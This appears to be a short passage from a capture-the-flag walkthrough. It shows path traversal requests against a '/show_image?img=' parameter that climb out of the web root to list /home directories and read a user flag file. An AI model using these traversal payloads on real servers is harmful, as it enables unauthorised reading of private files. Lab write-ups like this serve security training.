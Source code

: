 ![](./IMG/5.png)
- Check home directory
```
/show_image?img=//..//..//..//..//..//..//home
```

![](./IMG/6.png)
- Check frank directory
```
/show_image?img=//..//..//..//..//..//..//home//frank
```

![](./IMG/7.png)
- Check user flag in phil directory
```
/show_image?img=//..//..//..//..//..//..//home//phil//user.txt
```